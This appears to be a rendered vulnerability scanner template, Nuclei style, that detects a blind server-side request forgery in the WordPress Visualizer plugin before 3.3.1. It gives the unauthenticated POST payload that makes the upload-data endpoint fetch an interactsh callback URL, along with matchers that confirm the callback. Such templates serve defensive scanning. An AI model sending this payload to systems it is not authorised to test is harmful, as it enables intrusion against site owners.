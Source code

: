 **Type - word**

- part - body
- words
  1. Interactsh Server

**Type - status**

- status
  1. 200

---

# Visualizer <3.3.1 - Blind Server-Side Request Forgery

## Description

- Visualizer prior to 3.3.1 suffers from a blind server-side request forgery vulnerability via the /wp-json/visualizer/v1/upload-data endpoint.

- severity - critical
- tags - cve,cve2019,wp-plugin,ssrf,wordpress,xss,unauth,wpscan

## Requests

- Method - POST
- Method - POST

### URL

- {{BaseURL}}/wp-json/visualizer/v1/upload-data
  - {\"url\":\"http://{{interactsh-url}}\"}

### Matchers

**Type - word**

- part - interactsh_protocol
- name - http
- words
  1. http

**Type - word**

- part - header
- words
  1. application/json

**Type - status**

- status
  1. 200

---
